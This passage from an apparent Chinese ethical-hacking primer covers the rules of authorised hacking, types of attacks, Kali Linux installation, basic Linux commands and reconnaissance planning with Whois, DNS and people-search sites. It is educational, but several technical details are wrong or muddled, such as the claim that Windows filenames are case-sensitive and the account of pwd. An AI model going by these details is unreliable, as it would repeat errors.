这就是为什么必须制定一些规则，以确保我们正在进行的工作被认为是道德黑客攻击，而不是黑帽攻击。

在大多数情况下，两者之间的主要区别在于他们采取行动背后的动机。

黑帽黑客的动机是权力、金钱和满足个人需求。

白帽黑客（或道德黑客）的动机是保护他们自己的信息和数据，或者是他们所属公司的信息和数据。

那么，我们如何确保我们所做的黑客攻击被认为是道德的呢？

为了让黑客攻击符合道德概念，黑客必须遵循一些规则。

这些规则包括：

1. 进入网络需要明确的许可。这通常以书面形式进行，以确保双方达成一致。你可以列出获得的所有权限，以及公司希望你避开的内容。这些许可允许你探测网络并发现可能导致问题的安全风险。如果这是你正在工作的自己的网络，当然不需要这种书面许可。
2. 你将确保在他人或另一公司的网络上时，尊重他们的隐私。你将发现的漏洞留给自己，并仅与公司或个人分享。你不会发布关于该网络的信息供他人查看。
3. 当你完成对攻击的某些工作时，你将结束你所的工作。确保你没有留下任何东西，或者留下让你或其他人以后可以利用的机会。
4. 当你在搜索期间发现网络漏洞时，你将告知合作的软件开发人员或硬件制造商。当这些漏洞不是公司已经已知的问题时，这对保护你自己和他人尤为重要。

“道德黑客”这个术语随着时间的推移受到了一些批评。


这是因为有些人并不认为世界上存在所谓的“道德黑客”。

他们也认为黑客攻击就是黑客攻击，无论执行工作的人是谁，无论其背后的动机是什么。

然而，你会发现我们看到的这些道德黑客所做的工作是非常重要的。

他们帮助了许多公司改进了系统安全性，并且在他们所从事的工作中是高效且成功的。

那些兴趣成为这种黑客的人必须遵循一些严严格的规则和规定以维持这一点，而且他们中的许多人在开始之前会先成为 `CEH`（即`认证道德黑客`）。

## 黑客攻击的类型

现在我们对道德黑客有了进一步的了解，是时候让我们进一步了解一下当我们准备开始执行所需的黑客方法时，会有哪些选择了。

根据黑客在这一过程中希望实现的目标，我们可以探索几种不同的类型。

我们能够处理的一些不同黑客攻击类型包括：

### 1 - 网站黑客：
当黑客能够入侵网站时，意味着他们能够在未经授权的情况下控制 Web 服务器以及与它相关的任何软件，包括数据库以及带它的任何其他接口。

### 2 - 网络黑客：
当黑客能够入侵网络时，意味着他们将使用 `Netstat`、`Tracert` 等工具收集有关该网络的信息。

这种攻击的意图是损害网络系统，并阻碍此处使用的某些操作。

### 3 - 电子邮件黑客：
这种类型包括获取对电子邮件账户的未经授权的访问，然后在未经者同意的情况下使用它来发送威胁、链接和其他被视为有害的活动。

我们始终需要确保在打开或查看各种种类的邮件时保持小心。

总会有很多黑客通过电子邮件发送病毒和其他东西，通常带有一些恶意的链接或虚假的银行页面，这样你可能会交出黑客想要的一些信息。

对于你在邮件中打开的任何内容，保持谨慎是非常重要的，因为你永远不知道何时会是一个黑客正试图窃取你的信息。

### 4 - 恶意软件和病毒：
我们大多数人对黑客攻击和恶意软件都很熟悉，但我们始终需要警惕这一种。

你会发现黑客会真的花时间来扩展他们所掌握的信息，并尝试制作新的恶意软件和病毒来获取我们想要保持安全的信息。

无论你是点击了一个不好的链接，还是访问了一个带有病毒的网站，你都需要确保自己安装了良好的防病毒软件，以在整个过程中保持所有信息安全无虞。

### 5 - 密码黑客：
这是一个从我们使用的系统所存储或传输的数据中恢复秘密密码的过程。

黑客有许多不同的方法可以获取你的密码，特别是如果你不小心设置强密码并确保它们更难被黑客猜到。

记住，在很多情况下，这些密码是你与黑客之间唯一的防线，因此在这里将它们变得强力且安全是必须的。

### 6 - 截图：
我们在本指南中将查看的另一个内容是处理处理 `key logger`（键盘记录器）。

这是黑客可以使用的技术之一，以便在短时间内收集大量关于你的个人信息。

这使得黑客可以在你的电脑上安装一个小程序，然后记录你在自己的电脑上进行的所有按键。

这些信息将发送回黑客，随着时间的推移，他们将看到你发送了哪些信息，并看到用户名和密码的模式。

### 7 - 截图：
我们在这里查看的另一个部分是截图的概念。

这与我们之前做的稍有不同，但它与 `key logger` 配合使用，使其在执行应做的工作时更加成功。

通过这种方式，黑客实际上能够看到你经常访问哪些网站等，并可以利用这些信息来帮助他们并从中获得最大的利益。当 `key logger` 捕获你输入的内容时，如果截图随之而来，他们真的非常容易收集到他们想要的信息。

### 8 - 中间人攻击：
我们在上本指南中曾详细讨论过这种攻击，但它仍然是许多黑客喜欢的类型，而且它能确保你能够让事情按照你想要的方式运行。

这种攻击是指黑客能够说服他们属于那个特定的网络。

然后，当该网络上的某台计算机发送信息时，它将直接指向黑客，而不是目标接收方。

黑客可以只查看这些信息，也可以在发送给消息的目标接收者之前对其修改以满足他们的需求。

### 9 - 计算机破解：
这是黑客通过应用不同的黑客方法窃取计算机 ID 和密码，并获取对该计算机系统的未经授权访问。

虽然有些人担心所有黑客都是一样的，并且我们需要担心任何形式的黑客攻击（无论其被认为是道德还是不道德的），但实际上是有区别的。

在技术等更多领域，我们在过程中有很多地方可以使用道德黑客。

这些人将让我们有机会学习更多关于我们网络的知识，并可以做很多努力确保我们的数据安全，让黑客无法得到他们想要的东西。

# 第三章：如何下载和使用 Kali Linux

现在是时候让我们检查并确保我们能够下载 `Kali Linux` 了。这将确保我们能够充分利用这个系统，并能够按照我们想要的方式使用它。

我们有几种不同的方法可以在我们的系统中获取 `Kali Linux`，以便我们对其进行操作。

如果你想通过使用这个系统来执行你自己的黑客攻击，安装 `Kali Linux` 系统是非常重要的，以便我们能够以任何想要的方式与它工作。


你可以根据你正在使用的系统选择该程序的 32 位或 64 位版本。

## 创建启动 USB 启动盘

下载完成后，我们需要确保能够创建一个可启动的 USB 驱动器。为此你需要使用 `Rufus` 程序，它只是一个可以帮助你创建任何你想要的可启动 USB 闪存驱动器的实用程序。你可以找到该程序的主页并安装进行使用。

准备就绪后，我们就开始制作本次任务所需的启动 USB 启动盘了。

首先，插入 USB 驱动器。为了确保正常工作，你需要确保你的优盘空间至少有 4 GB，以便有足够的空间完成所有操作。现在运行 `Rufus` 并按照给出的步骤操作，创建你所需的启动 USB 启动盘。

随着操作进行，你会看到一个包含几个选项的屏幕。第一个是检查是否选择了你想要使用的 USB 驱动器。你可以向下查看，点击它下方的小 CD 驱动器图标。然后我们需要找到 `Kali Linux` 的 ISO 文件，即你从 `Kali` 官网下载的那个文件。

处理好这些后，就可以点击 `Start` 按钮并等待整个过程完成。进程完成后，点击关闭按钮即可退出 `Rufus` 程序。是的，你现在已经拥有了一个带有 `Kali Linux` 操作系统的启动 USB 启动盘。

除了像我们这里计划这样与 Windows 进行双启动外，你还可以使用它进行 `Kali` 的现场启动（live boot）。这意味着我们可以在不安装的情况下运行 Kali。我们只需要记住，这将导致我们在可以使用的功能和特性上受到一些限制。

## 分区与安装

完成这一部分后，我们需要为 `Kali Linux` 安装创建一个单独的分区。要这样做，我们只需要打开“Disk Management”（磁盘管理）设置，或者在 Windows 中打开命令行并运行 `diskmgmt.msc` 命令。

在操作过程中，我们可以通过收缩现有卷来创建一个至少为 15 到 20 GB 的新分区。我们花了一些时间创建了一个大约 17 GB 的新分区，你也应该创建一个类似的分区。到此时，我们想要完成的初始步骤都已完成：下载的 `Kali Linux ISO` 已完成，你创建了启动 USB 启动盘，然后我们为 `Kali Linux` 系统的安装创建了自己的分区。

在继续之前，我们在处理 BIOS 时，务必始终 `Disable Secure Boot`（禁用安全启动）和 `Fast Boot`（快速启动）选项。在这里我们需要重启使用的设备并进入引导管理器。这里将允许我们选择 `Boot as USB`（通过 USB 启动）选项。请记住，命名会根据你使用的电脑品牌而不同。

此时，你会看到 `Kali` 的安装窗口出现了。那里有几个不同的选项供我们安装 `Kali Linux`。我们将使用 `Graphical Install`（图形化安装），因为它会让安装变得简单一些。

这里你可以进行一些准备工作步骤，以确保一切都井井有序并按照你的意运行。例如，你可以选择使用的语言、选择你所在的国家、挑选键盘布局以及 `IP` 配置（选择是手动还是自动），你甚至可以选择你想要使用的 `Hostname`（主机名），这类似于你其他账户的用户名。

然后我们将进入输入要给 `root` 用户使用的密码。输入你想要使用的密码后，点击 `Continue`。我们将设置为能够 `Manually`（手动）选择我们想要使用的分区方法。请仔细检查此步骤。在继续之前，要确保你只操作我们之前为安装创建的那个分区。

然后我们可以选择帮助删除分区的选项。在这一步中，我们应该看到 Kali 安装的分区显示为空空间。我们想要使用该空空间并选择 `Automatically partition`（自动分区）空空间。你也可以选择 `All files in one partition`（所有文件在一个分区）选项，这是对新用户的建议。最后，我们要选择“Finish partitioning and write changes to disk”（完成分区并将更改写入磁盘）选项。

在这一步，系统会要求权限以向磁盘写入所需的更改。确保选择 `Yes`。现在 Kali 的安装过程将开始。完成安装大约需要十到十五分钟，所以请留一些时间等待完成。

当安装过程进行一半时，它会询问你关于网络镜像。你可以选择 `Yes` 或 `No`。此设置是关于更新选项的。通常最好选择 `no`，以后需要再更改。

然后是时候安装 `GRUB` 引导程序了。当它出现时，点击 `Yes`。接下来，系统将想要知道在哪里安装 `Kali GRUB` 引导程序。你可以选择第二个选项硬盘。记住，你应该只为此安装选择硬盘。否则，当 Kali 安装完成后，系统将不会显示让你在启动时选择查看哪个操作系统的选项。

成功完成此安装过程后，会弹出一个屏幕，你应该选择 `Continue`。现在你可以弹出直以来使用的 USB 驱动器并重启系统。在 `Start-Up` 过程中，你会看到 Kali Linux 的 `GRUB Loader`。在这里你可以选择 `Kali GNU/Linux` 来使用新操作系统启动笔记本。但如果你想用 Windows 10 启动，只需选择 `Windows Recovery Environment`（Windows 恢复环境）。

## 使用 Virtual Box 安装 Kali

在某些情况下，你可能不需要为你的需求进行 Kali Linux 双启动。也许你正在使用的系统没有足够的空间或性能来允许两个操作系统同时运行。又也许你会在其他方面遇到麻烦，并决定双启动并不适合你。

当你的需求符合这种情况时，你可以通过 `Virtual Box` 的帮助来安装 Kali。与我们上面提到的双启动相比，使用 `Virtual Box` 可以看到一些优势。其中一些优势包括：

1. 你可以同时运行多个操作系统。
2. 你可以快速地对你的操作系统进行许多更改，例如安装、备份、回滚、恢复等。
3. 你可以更好地管理资源分配，而无需处理所有烦恼。
4. 如果你想在其他地方使用，可以提取 `Virtual Box` 并将其复制到不同的机器上。


5. 你可能会破坏你正在使用的安装版本，只需点击几次即可将其回滚，而不需要花费大量工作。

6. 你将被迫在此过程中进行故障排除，这将成为你边学边学的一种好方法。

7. 这是一个让你花时间学习和测试事物的绝佳方法。

然而，我们必须意识到，当我们尝试在 `Virtual Box` 上运行 Kali 时，会出现一些负面影响。

例如，性能将会下降，并且远低于我们在其他选项中习惯了的性能。

`GPU Acceleration` 进程将无法工作，`USB` 无线网卡也会导致一些问题。

你可能会发现，避免问题和排除故障的烦恼其实更容易，转而选择经常进行回滚，而不是学习任何新知识。

而且你可能会发现，如果你习惯了这种方法，那么在真实机器上安装和运行代码将让你感到不再舒适。

我们可以根据自己的意愿，将 `Kali Linux` 安装到这些虚拟机中的某一个变得变得简单或复杂。为了将此语言（或操作系统）安装到虚拟机中，我们可以操作的一些简单步骤包括：

1. 你可以创建一个新的 `Virtual Machine` 来开始。
2. 接下来，是时候创建一个全新的 `Virtual disk` 来工作。
3. 当这些完成并准备就绪后，就是时候修改 `Virtual Box` 的某些设置来帮助启动了。
4. 在我们处理了一些想要处理的修改后，是时候加载 `Kali` 的 `ISO` 文件。
5. 当我们加载了 `Kali` 的 `ISO` 后，也要启动它。这将包括添加一些信息如初始信息、位置和时区等。
6. 然后是时候处理 `Kali` 磁盘分区。这将使用许多我们在与 `Windows` 进行双启动时讨论过的相同步骤。
7. 然后我们花一些时间完成正在处理的安装，准备好后，在 `Virtual Box` 上运行 `Kali` 就会变得更容易。
8. 如果你需要，可以浏览并添加一些 `Virtual Box Guest Additions` 软件包以满足你自己的需求。

当你需要处理想要进行的黑客攻击和 `Kali Linux` 系统工作时，这是最常用的两种方法。能够将此投入使用并学习如何安装 `Kali` 操作系统，使其在你最需要的时候已经准备就绪，将确保你准备好处理黑客攻击以及我们以后将花时间处理的一些更复杂的事情。

# 第 4 章：花时间尝试 Linux 系统

当我们到达这一步时，我们应该已经在电脑上设置好了 `Linux` 操作系统并准备就绪。现在是时候学习如何操作 `Linux` 系统并根据我们所有的需求对其设置设置。

请记住，在我们在本以及指南的剩余部分中，我们正在使用的工具将特定于我们在 `Kali Linux` 中能做的事情，虽然如果你想使用该操作系统，可以将这些工具迁移到 `Windows` 中运行，但你会发现，这个过程绝对会让你失去这些相同工具在 `Linux` 中具有的一些功能。

除了这些信息外，`Linux` 中还有一些根据你正在尝试做的事情而可能重要的功能，但当你将它们带到 `Windows` 系统时将完全无法工作。这可能导致程序运行不良或完全无法运行。

这就是为什么许多想要进入黑客领域的人正如我们之前讨论的那样，只会使用 `Kali Linux` 系统。因如此，学习一些 `Linux` 的基础知识非常重要，如果你从未使用过它并希望它与你的黑客攻击顺利配合的话。

曾经有一个名为 `BackTrack` 的优秀 `Linux` 版本，它对此很有帮助并且很流行。它包含了许多我们想在 `Linux` 中使用的功能，如果你拥有该操作系统的旧发行版版本，这可能就是你最熟悉的使用版本。

另一方面，如果你刚刚完成了将 `Kali` 添加到系统的过程，那么这个会新一些。两者之间会显示出很多相似之处，但也有一些不同的功能，请同时也记住这一点。

在考虑到所有这些信息的情况下，你可能很兴奋学习更多关于 `Kali` 以及我们在黑客攻击方面能用它做些的事情。现在是时候让我们进入其中，学习如何操作 `Kali`、终端是如何运作的，甚至学习在这个操作系统中编写一些我们自己的命令了。

## 启动系统

我们对此需要做的的第一件事是启动操作系统。你将登录并成为 `root`。这基本上意味着如果你在使用自己的电脑，你将是系统中的主计算机。

然后你需要输入 `bt > startx`。

```
bt > startx
```

你将能够打开那里的其中一个终端。你需要在终端里花一些时间，学习更多关于它的知识，因为当我们开始进行黑客攻击和 `Linux` 操作时，我们将花费大量的时间。这个终端能够让我们处理许多不同的事情，并且和我们在 `Windows` 和 `Mac` 中看到的某些相似之处。但也有一些区别，所以请花时间尝试一下，看看我们如何真正与它工作并获得我们想要的结果。

## 打开终端

我们接下来需要查看的是如何打开终端来操作 `Kali Linux`。当你点击此部分的图标时，就可以完成这一点，该图标就在屏幕底部的栏上。

当你点击此图标时，你会得到一个黑屏幕和一个闪烁的光亮光标。此时我们还有几个选项供我们做决定。如果你曾经用过 `Windows` 提供的命令提示符，你会发现 `Linux` 中显示的终端会非常相似，并且带有许多相同的部分。

但在记住这个想法的同时要记住，`Linux` 终端中包含的力量比你在那里找到的多得多，而且我们将它用于许多不同的任务。你应该在这个终端中执行所有你想要进行黑客攻击的命令和工作，因为这将有助于增加你所寻找的力量和易用性。

然而，我们在操作这个工具时需要记住的一点是，它是区分大小写的。与 `Windows` 等其他操作系统不同，`Linux` 在命名等等操作上会区分你用的是小写字母还是大写字母。例如，在 Windows 中工作时，输入 `Paperclip`、`paperclip` 或 `PaperClip` 都被视为不同的东西。这是一个微小的问题，但当你以后想在代码中进行某些更改或寻找特定内容时，这将产生影响。

## 查看 Kali 目录结构

现在我们已经能够浏览并打开终端，我们可以花一些时间更多地检查它，并学习关于这个终端及其随附目录的基础知识。作为一个学者，你可能会遇到一些情况，然后被 `Linux` 中发现的结构搞得困。


与我们习惯的 Windows 和 Mac 不同，Linux 操作系统不会链接回物理驱动器。

在开始工作之前，你不需要处理 `C:\`，相反，我们需要使用 `/` 符号。这个正斜杠非常重要，因为它向我们展示了正在操作的文件系统的根目录（root）。

根目录是文件系统的顶端。所有其他目录和文件夹都位于根目录之下。将这个根目录想象成主文件夹，其他我们要使用的其他文件夹将放入其中，就像我们在 Windows 中使用的某些文件和文件夹一样。如果可以，花点时间看看我们如何设计这几个不同的目录，或者浏览系统看看你是否能找到其中的一些。在开始黑客攻击之前，至少掌握一些关于该系统的基础知识总是个好主意，因为有时你可能希望直接在终端中进行并导航，而不需要我们引入另一个图形工具。

当我们在 Kali 目录时，还有其他一些可以操作的内容。在使用其自带的图形化表示时，我们需要探索和理解的几点包括：

*   `/bin`——这是存储所有二进制文件的目录。这些是帮助 Linux 运行的程序。
*   `/etc`——这通常是存储配置文件的地方。在操作 Linux 时，你几乎用文本文件保存的所有内容都会被配置并存储在 `/etc` 路径下。
*   `/dev`——这是包含所有设备文件的目录，类似于你在 Windows 中找到的设备驱动程序。
*   `/var`——这通常是你找到日志文件以及其他存储文件的地方。

## 使用 `pwd` 命令

现在，我们需要花一点时间看看一些供我们使用的命令。Linux 系统中有很多命令可以使用，但我们将花些时间查看那些最常用且在我们在此过程中将重要的命令。

在操作 Kali Linux 时，我们需要关注的第一个命令是 `pwd` 命令。

当你决定打开 Linux 终端窗口时，你会发现自己处于默认目录中，它被称为家目录（home directory）。如果你想确认这一点，或者在过程中的随时双检查你处于哪个目录，只需要输入 `bt > pwd` 即可。

当你准备好后，这将在屏幕上显示当前目录。为了简单起见，`pwd` 代表当前工作目录（current working directory），即你现在所在的目录。如果你现在在主终端，你将得到 `/root` 返回。如果这个显示在你的屏幕上，说明我们处于根用户目录内部。这是一个好用的命令，因为在处理像目录树之类的编程需求时，你会需要它。

## 使用 `cd` 命令

尽管如此，我们之前提到的 `pwd` 命令并不是我们需要关注的唯一命令。当我们进入实际黑客攻击部分时，会有很多其他重要的命令。但在开始，当我们学习更多关于 Kali Linux 系统以及能用它做什么时，花点时间查看 `cd` 命令同样重要。

当你处于想要操作的终端时，可以使用几个命令来更改你当前所在的目录。当你使用这些命令时，它可以帮助你在想要使用的几个目录之间来回切换，而不是反复搜索，或者感到困惑并迷失自己到底在哪里。有一个简单的命令来处理这一切会让编码期间的生活变得简单一些。

要做到这一切，我们需要使用切换目录命令或 `cd` 命令。这个 `cd` 命令允许我们通过一种简单的方法，在需要时遍历并导航到目录结构的顶端。我们将依靠来实现此点的代码在下方：

```
bt > cd ..
```

你需要添加双点（..），因为这告诉程序你想在目录树中向上移动一级。这与你在 `pwd` 命令中发现的有所不同。使用 `pwd` 命令时，你会发现系统带你一直回到起点。但当你使用 `cd ..` 命令时，你是在要求系统只带你向上一级。这使得在页面或系统的部分之间移动变得更容易，而无需从顶端重新开始。

## 查看 `whoami` 命令

我们将查看的最后一个命令是 `whoami` 命令。这个与其他与其他略有不同，它在程序员想要查看他们当前以什么用户身份登录系统时会被使用。如果你处于一个有多个用户可以登录的网络上（无论他们是否被邀请进入该网络），你可能想使用此命令来更好地了解谁在什么时候登录了。

这也是查看你个人被允许使用哪些权限，或者其他用户在系统中被允许执行的操作的好方法。当我们谈论白帽黑客的一些不同内容时，这是一个获取大量价值信息并解决某些问题（如果你发现有很多人同时想要访问信息）的绝佳方法。但另一方面，当我们观察黑帽黑客时，我们看的是如何使用它进入网络并引发问题，而又没人能真正检测到我们就在那里。

所以，为了帮助我们完成整个过程并学习你登录在该系统中的用户，代码将非常简单。你只需要输入代码 `bt > whoami`。

这是一个非常好的起点，因为结果将是你当时登录的用户名。如果你看到显示的名称是 `root`，知道这意味着你是网络上的主计算机，或者如果你是当时网络上的唯一计算机，它就是你的主计算机。

Linux 系统自带的许多命令以及我们在指南中查看的命令都易于操作和学习，执行它们也会更容易。但学习如何操作这些命令是为了帮助你了解更多 Linux 系统以及我们如何共同处理它们。如果你计划使用 Mac 或 Windows 操作系统，那么在处理 Linux 系统时你会感到如归家一样，因为它与其他系统相似，并且很多时候你会发现你熟悉的部分。然而，你会发现这个系统对代码的依赖比你过去习惯的要多，你也必须习惯于此。但通过学习一些编码以及新系统中找到各个部分的位置，并在开始你想要的某些黑客攻击之前有一个良好的准备，你将能够让 Linux 按照我们的意愿运行。


尝试一下这些不同的部分，并看一看我们上面执行过的一些命令，你会发现为了完成你的黑客任务，这将是一个非常易于操作的选择。

当然，在我们深入学习这类操作系统的过程中，还有其他命令可以进一步学习，这也是学习这种系统变得如此有吸引力的原因之一。

除了上面讨论过的一些代码和命令外，我们还需要查看下面的某些命令，看看为了我们的黑客需求，这个系统还能做些什么：

* `ls`: 它是 list 的缩写。它将列出当前文件夹或目录的内容，无论是文件夹还是文件，以及这些内容运行的路径。
* `cd`: 这个命令用于从一个目录移动到另一个目录。
* `sudo`: 这允许经过许可的用户以另一个用户的身份执行新命令。
* `mkdir`: 这个命令允许你使用名称和路径创建一个新目录或文件夹。
* `cp`: 它是 copy 的缩写。它将某一个位置的文件复制并移动到另一个位置。
* `mv`: 这个命令将文件从一个位置移动到另一个位置。
* `tar`: 这个命令用于存储并在稍后从名为 tar 的归档中提取文件。
* `gzip`: 这个命令将文件压缩。它的工作原理与 Windows 中的 .zip 文件非常相似。
* `gunzip`: 这个命令将解压缩你已经用 `gzip` 压缩的文件。
* `ifconfig`: 这个命令将显示使用的网络接口，也可以对网络接口进行配置。
* `ping`: 这个命令通常用于检查另一个系统当前是否可访问。

# 第 5 章：如何规划你自己的攻击

在本指南中，我们已经花了一些时间尝试了解配置 Kali 系统并使其准备就绪所需的一些基础知识。

这至关重要，但你阅读本指南的主要目标可能是为了找出为了完成你网络上所需的某些攻击而需要的基础知识。

我们在这个领域首先要探索的内容将是关于如何规划自己的黑客攻击的基础知识。

一旦我们花时间获得了一些开始新的黑客攻击所需的知识，就是是时候为实际执行攻击制定游戏计划了。

每个黑客都应该有一份攻击计划，或者对他们开始攻击时想做的事情有一些想法，甚至包括他们认为漏洞最可能出现在哪里。

你永远不想盲目摸索。

这会导致你胡乱忙乱，在网络的某些部分花费过的时间，那么你更有可能被其他人发现。

这就是为什么拥有计划并坚持执行它将是确保你的网络长期安全的最佳方式之一。

我们提前了解的关于你网络的信息越多，这种类型的攻击对你来说就越成功。

你需要进入黑客的视角，学习哪些方法对他们最有效，以及他们仅仅通过在网上进行搜索就能获取到关于你网络的哪些信息。

我们需要花时间查看这些内容，并找出同样的信息。

如果没有这些知识，当你准备执行想要完成的黑客攻击时，将很难知道发生了什么情况。

如果黑客关于你网络的信息比你掌握的要多，那么保护你的系统将非常困难。

我们需要确保我们拥有最丰富的知识，并在黑客进入之前能够解决一些问题。

当你能够真正地深入并学习更多关于你网络的知识时，规划你的攻击效果会好得多。

这意味着我们需要进行进行一些调整并做一些研究。

你可能会对在外面能找到关于你业务的信息感到惊讶，而你甚至没有意识到那里有这些信息。

当你检查你的网络并尝试寻找这些漏洞所在的位置时，没有必要检查系统上你能想到的每一个协议。

这看起来可能是最好的选择，但它会让事情变得更加混乱，并且因为发生的事情太多而花费过多的时间。

检查某些漏洞的最佳方法是检查并测试最重要的部分，并确保你一次检查一个，这样你就能立即发现问题所在的地方。

在进行攻击绘图时，你需要确保尝试一个应用程序或一个系统，并且始终从对整体最有帮助的那一个开始。

然后你就可以顺着列表检查所有重要的攻击，看看黑客在所有工作完成之前是否可能通过该漏洞进入。

如果你查看了一些协议，仍然不确定应该从某一个还是另一个开始，或者你起初应该从哪里开始，我们针对此可以问的一些问题包括：

* 如果有人尝试对系统进行攻击，哪部分最终会导致最大的麻烦，或者如果你丢失了某部分的信息，哪部分会变得非常困难？
* 如果你受到系统攻击，系统的哪部分最脆弱，因此也是你的黑客最可能使用的部分。
* 系统中是否有某些部分记录得不清楚，或者很少被检查？是否甚至存在你不熟悉（或你以前从未见过）的部分？

一旦我们花时间过一遍并回答这些问题，以及此时看起来可能相关的其他问题，那么列出一份想要首先检查的各种系统和协议的好列表就会容易得多。

在这个过程中记录下一些好的笔记，以确保你在移动各个系统时保持一切井井有序，并确保记录所有内容，这样如果你以后遇到一些问题，将更容易修复它们。

## 如何组织项目

考虑到这一点，是时候写出那个列表，然后开始运行我们想要的一些应用程序和系统了。

我们还必须在开始之前双击该列表，确保我们涵盖了所有重要内容。

你想花时间对计算机内部的所有内容运行这些测试，以确保它是安全的并且消除了所有漏洞。在进行这项规划时，我们需要考虑的此过程的不同部分包括：

* 你的路由器和交换机
* 连接到系统的任何设备。这包括平板电脑、工作站和笔记本电脑。
* 所有的操作系统，包括服务器和客户端。
* Web 服务器、应用程序和数据库。
* 确保防火墙都已就位。
* 电子邮件、文件和打印服务器。

在这个过程中你将运行许多不同的测试，这将确保你检查了系统上的所有内容并发现存在的漏洞。

你需要检查的设备和系统越多，组织项目花费的时间就越长。

你可以对列表进行一些更改，只选择你认为最重要的选项，以节省时间并保持你的系统安全。

## 时间是否重要？


我们还需要考虑完成我们想要进行的攻击的最佳时段。

在你设置该黑客攻击的目标时，你需要查看何时是完成攻击的最佳时机，以便获取尽可能多的信息并清晰地观察系统，同时又不打扰网络或系统维护人员的工作。

现在，如果你是花时间为自己的个人电脑进行这种渗透测试，那么只需选择你认为最合适的时间即可。

但如果你正在对另一个系统进行这种攻击，以帮助他们保持安全稳固，那么你将需要对选择进行这些攻击的时间更加谨慎。

如果网络上还有其他设备，或者你正计划在业务网络上进行攻击，你需要确保选择的时间不会打扰该业务的正常运行。

如果这家公司在早晨会有大量客户，那么在该时间关闭他们或进行攻击对你来说可能不会顺利。

很多时候，这些攻击是在晚上进行的，以确保你可以自由地控制网络，而不会给实际使用该网络的人造成问题。

## 如何判断别人能看到什么

现在我们已经到了可以实际完成真实黑客的阶段，是时候进行一些研究了。在这一步中，我们想要停下来看看别人实际上能看到关于我们自己网络的什么。

一个优秀的黑客在进入你拥有的网络之前，会花一些时间研究你的网络，看看他们是否能够找到所需的个人信息，以暴露那里存在的漏洞。

如果你是系统的所有者，那么那里可能有许多关于你公司的信息，甚至关于那些帮助运营公司的人，而你将会错过这些信息。

但在进行这种研究时，是时候摘下“所有者”的帽子，更多地关注“黑客”的角色了。

这将让你更容易看到外面有哪些信息，以及黑客可能如何利用这些信息对付你。

请记住，在收集这些线索时，你可能有很多选项可以选择，但你应该开始的第一地方是在线搜索。

在这里，你可以只需输入你的名字或你的业务名称，看看那里是否有大量信息。

然后，你可以通过探测（probe）来进一步缩小范围，以查明别人能够关于你或关于你正在操作的系统看到什么信息。

你可能还会发现，使用本地端口扫描器是发现其中一些问题的一种好方法，因为：

- 虽然这只是过程的开始，因为它只会向我们展示一些可以操作的基础内容。

这意味着对我们来说，深入探索非常重要，否则我们可能会错过我们的计算机和网络发送出的某些东西，而却并不知道发生了什么。

我们应该考虑搜索的几件事将包括：

- 任何可以让别人看到与该业务相关者的联系信息。一些值得检查的地方包括 `USSearch`、`ZabaSearch` 和 `ChoicePoint`。
- 查阅任何关于公司重大变更的新闻稿。
- 公司发生的任何收购或合并。
- 可获取的 `SEC` 文档。
- 公司拥有的任何专利或商标。
- 通常存于 `SEC` 的注册文件，但在某些情况下，它们也可能在其他地方。

是的，这最终将产生大量我们需要进行研究和寻找的信息，但请想想这些信息对黑客来说会有多大的价值。

你必须弄清楚其中有多少信息是黑客可以轻易获取供他们自己使用的。

在这个过程中，进行简单的关键词搜索会让工作变得容易得多，但还不够够，你不应该停在此此，否则你将会错过关于你和你的网络的一些真正重要的事情。

你需要花时间深入挖掘，并进行更高级的搜索来获取这些信息。

做好笔记并多查看一下也可以，以确保你能够真正看到那里有什么，并学习如何尽可能地减少它们。

## 开始绘制网络映射

一旦我们花了一些时间进行深度研究，并观察黑客能够关于我们、我们的网络和我们的公司了解到什么，就是时候开始我们之前讨论过的某些伦理黑客攻击了。

记住，一个连接了大量设备和信息的网络总是需要更多的工作来保护。

这是因为有很多人必须使用它，而你必须始终确保一个或多个设备没有因为使用不当而被黑客接管。

在游戏的这个阶段，我们将花时间来梳理并映射我们正在使用的网络。

这是一个重要的步骤，因为这将更容易看到你的系统或网络的足迹是什么，以及它为其他想要查看的人留下了什么。

开始这一工作的一个好地方是一个被称为 `Whois` 的网站。

这个网站在设计之初是为了帮助公司确定他们喜欢的域名是否可用，或者是否已被占用。

但现在它也是一个了解更多关于特定域名所有者和注册信息的好地方。

如果你通过这个网站并对你拥有的域名进行域名搜索，如果你的名字出现了，那么这将增加你公司信息（至少包括姓名和电子邮件地址）在该网站上被展示的几率。

你需要了解这些信息，以便采取适当步骤将其关闭，并确保它不会影响你业务的运行。

`WhoIs` 网站能够向我们提供大量信息。

例如，它将向我们显示在你查询的特定域名上找到的所有 `DNS` 服务器的信息，以及关于你正在使用的服务提供商将提供的技术支持的一些有用信息。

这并不是我们进行研究以查看向世界广播关于我们业务的信息的唯一地方。

我们还可以查看一个名为 `DNSstuf` 的网站。

这个将向我们展示更多关于我们自己域名的信息，查看它以看看其他黑客能关于你看到什么是非常重要的。

我们在这里在这里能够看到的其他一些信息将包括：

- 关于主机如何处理该特定名称的所有电子邮件的信息。
- 所有主机所在的位置。
- 关于域名注册的某些对黑客实用的通用信息。
- 关于这是否带有垃圾邮件主机（spam host）的信息。

这仅仅是你可以访问以寻找其中一些信息的网站之一，检查其中几个是一个好主意。

这有助于对你的域名和公司可能在网上公布的信息提供良好的开始，但还有其他几个你应该检查的地方，包括：

`Google Groups` 和论坛是你进行某些工作时需要注意的一个地方。


这些地方结合其他一些论坛一起，是黑客进行搜索并学习更多关于你网络信息的绝佳场所。

事实上，你可能会对这些论坛上关于你业务的信息类型感到有些惊讶，尽管你并不是在那里发布信息的人。

取决于某人试图在这里发布的信息类型，你的网络安全可能会出现很多问题，因为黑客或其他人可能会发布如 `usernames`（用户名）、`IP addresses`（IP 地址）、`domain names`（域名）等内容。

好消息是，如果你在大多数论坛上发现了这类信息，你可以请求他们将其删除以保护你的安全。

你需要能够提供身份证明来说明你为什么想要删除这些内容，但这可以帮助你确保随之而来的安全问题尽可能降到最低。

## 系统扫描的重要性

在你完成我们在上面花费时间的一些步骤时，你现在应该已经看到目标是弄清楚在线上会找到多少关于你的网络和系统的信息，这将让你更清楚地了解黑客可能在什么地方收集必要的信息，然后开始对你发起攻击。

我们必须记住，这是一个过程，需要一些时间。

黑客会非常小心，并确保他们的研究是彻底且深入的，你也需要这样做。

但当你完成寻找所需信息后，你就可以进行系统扫描，以确保系统和网络是安全的，并且所有的潜在漏洞都得到了处理。

这些扫描将非常有用，并会显示在你的系统中发现的某些漏洞。

这些是你维护网络并保持其安全的最佳方法之一。

你可以选择的帮助保护网络的一些不同扫描包括：

